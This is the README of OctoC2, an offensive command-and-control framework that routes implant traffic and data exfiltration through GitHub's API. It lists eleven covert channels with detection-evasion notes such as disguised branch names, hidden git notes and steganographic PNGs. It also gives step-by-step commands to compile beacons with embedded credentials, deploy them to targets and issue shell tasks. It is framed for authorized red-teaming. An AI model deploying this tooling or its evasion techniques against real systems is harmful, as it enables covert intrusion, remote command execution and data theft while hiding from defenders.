

<!--
  ╔═══════════════════════════════════════╗
  ║  OctoC2 — GitHub-Native C2 Framework  ║
  ╚═══════════════════════════════════════╝
-->

<p align="center">
  
</p>

<p align="center">
  GitHub-native C2. All traffic is HTTPS to <code>api.github.com</code>.<br>
  No VPS. No custom domains. No listening ports.
</p>

<p align="center">
  
  
  
  
  
</p>

> [!WARNING]
> **AUTHORIZED USE ONLY**
>
> For authorized red-team engagements and security research only. Use on systems you own or have explicit written authorization to test.
>
> Unauthorized use violates the CFAA, the UK Computer Misuse Act, and equivalent laws worldwide. The authors accept zero liability for misuse.

---

## About OctoC2

**OctoC2** is a fully GitHub-native command-and-control framework that turns GitHub itself into your C2 server and exfiltration channel. Every operator command and beacon response travels exclusively through GitHub's public API using legitimate features.

### Why OctoC2?

- **Zero infrastructure** - No servers, no domains, no open ports.
- **Excellent OPSEC** - Traffic looks like normal developer or automation activity on GitHub.
- **Highly resilient** - 11 covert channels with configurable priority and automatic fallback.
- **Strong encryption** - End-to-end with `libsodium crypto_box_seal` (X25519 + XSalsa20-Poly1305). Operator private key never leaves your machine.
- **Production-ready** - Supports short-lived GitHub App installation tokens and encrypted runtime key delivery.

---

## How it works

Every operator command and beacon response travels through GitHub's own API surface. From a network perspective your beacon is a Bun process making authenticated HTTPS requests to `api.github.com`. No anomalous outbound connections, no self-signed certs, no beaconing to an IP you own.

The beacon picks a channel from a configurable priority list and falls back automatically if a channel goes dark. All payloads use libsodium `crypto_box_seal` (X25519 + XSalsa20-Poly1305). The operator private key never touches the server or the beacon binary.

For production engagements, swap PATs for GitHub App auth: installation tokens expire hourly and are scoped to a single repository. A captured token is useless within the hour. The App private key is delivered to running beacons at runtime via an encrypted dead-drop, so nothing sensitive is baked into the binary.

### Components

| Component   | Path                | Role |
|-------------|---------------------|------|
| Implant     | `implant/`          | Bun/TS beacon, 11 channels, automatic fallback |
| Server      | `server/`           | Task queue, SSE stream, gRPC endpoint |
| Dashboard   | `dashboard/`        | Operator UI: real-time feed, bulk actions, decrypt panel |
| CLI         | `octoctl/`          | Setup wizard, beacon compiler, task queue, bulk shell, results decrypt |
| OctoProxy   | `templates/proxy/`  | Relay through decoy repos via GitHub Actions |
| Modules     | `modules/`          | Loadable post-ex scripts: recon, screenshot, persist |

---

## Covert channels

| #  | Channel                  | Transport              | OPSEC notes |
|----|--------------------------|------------------------|-------------|
| T1 | Issues + Comments        | Issues API             | Payload in HTML comment; issue title contains no C2 identifiers |
| T2 | Branch + Files           | Git refs               | Branch named `infra-sync-{id8}`; task in `task.json`, ACK in `ack.json` |
| T3 | Actions Workflows        | `repository_dispatch`  | Event type `ci-update`; variables use `INFRA_*` prefix |
| T4 | Codespaces gRPC          | gRPC over SSH          | Tunnel through Codespace SSH; no external infrastructure |
| T5 | Pages + Webhooks         | Deployments API        | Deploy environment named `ci-{id8}` |
| T6 | Gists                    | Gists API              | Secret gist; filenames `svc-*.json` |
| T7 | Secrets / Variables      | Variables API          | `INFRA_CFG_{id8}` covert ACK; no repo secret touched at runtime |
| T8 | git notes                | Git refs API           | `refs/notes/svc-*`; invisible in GitHub web UI, no commit history |
| T9 | Steganography            | Git branches           | LSB alpha-channel PNG; payload in `infra-cache-{id8}` branch |
| T10| OctoProxy                | Decoy repos            | All traffic relayed through a separate repo you control |
| T11| HTTP / WebSocket         | WebSocket + REST       | HTTPS to Codespace Dev Tunnel port; falls back to REST polling |

Channel selection is runtime-configurable via `OCTOC2_TENTACLE_PRIORITY`. The E2E suite verifies zero forbidden terms in issue titles, branch names, commit messages, and API payloads.

---

## Quick start

**Requirements:** [Bun](https://bun.sh) >= 1.3, a private GitHub repo, a PAT with `repo` scope

```bash
git clone https://github.com/dstours/OctoC2.git
cd OctoC2 && bun install
```

### Option A: Interactive setup wizard (recommended)

The wizard walks you through keygen, repo validation, auth mode, channel selection, `.env` generation, and beacon compilation in one command:

```bash
cd octoctl && bun run src/index.ts setup
```

### Option B: Manual setup

1. Generate an operator keypair
```bash
cd octoctl
bun run src/index.ts keygen --set-variable
# Prints OCTOC2_OPERATOR_SECRET and pushes MONITORING_PUBKEY to repo
```

2. Export environment
```bash
export OCTOC2_GITHUB_TOKEN=<PAT>
export OCTOC2_REPO_OWNER=<owner>
export OCTOC2_REPO_NAME=<repo>
export OCTOC2_OPERATOR_SECRET=<base64url-secret>
```

3. Start the C2 server
```bash
cd server && bun run src/index.ts
```

4. Build and deploy a beacon
```bash
cd octoctl

# Compile a standalone binary with baked credentials
bun run src/index.ts build-beacon --outfile ./beacon --target bun-linux-x64

# Actions-only beacon (for CI/CD environments)
bun run src/index.ts build-beacon --outfile ./beacon --tentacle-priority actions

# With GitHub App auth (recommended for production)
bun run src/index.ts build-beacon --outfile ./beacon \
  --app-id <id> --installation-id <id>
# Then deliver the private key via dead-drop after first checkin:
# bun run src/index.ts drop create --beacon <id> --app-key-file <pem>
```
Deploy the binary to target and execute. It registers via the configured channel on first check-in.

5. Task and collect
```bash
cd octoctl

bun run src/index.ts task <beaconId> --kind shell --cmd "id"
bun run src/index.ts results <beaconId> --last 5
```

6. Open the operator dashboard (optional)
```bash
cd dashboard && bun run dev   # http://localhost:5173
```

Channel selection examples:
```bash
# git notes primary, gist fallback, issues last resort
octoctl build-beacon --outfile ./beacon --tentacle-priority notes,gist,issues

# Actions-only (CI/CD)
octoctl build-beacon --outfile ./beacon --tentacle-priority actions
```
See the full docs for OctoProxy setup, bulk shell, OpenHulud key delivery, capability modules, and the E2E test suite.

## Testing
```bash
make test   # implant + server + octoctl + dashboard (1,008 tests)

# E2E requires: OCTOC2_GITHUB_TOKEN, OCTOC2_REPO_OWNER, OCTOC2_REPO_NAME, OCTOC2_OPERATOR_SECRET
bun scripts/test-end-to-end.ts --cleanup
bun scripts/test-end-to-end.ts --notes --gist --branch --secrets --actions --maintenance --cleanup
```

## Documentation
Full documentation at https://dstours.github.io/OctoC2/

---

## License

OctoC2 is released under the **MIT License** exclusively for **authorized red teaming, penetration testing, and security research**.

See the full license: [LICENSE](LICENSE)

> **Important**: Unauthorized use on systems you do not own or do not have explicit written permission to test is strictly prohibited and may violate applicable laws (CFAA, Computer Misuse Act, etc.).
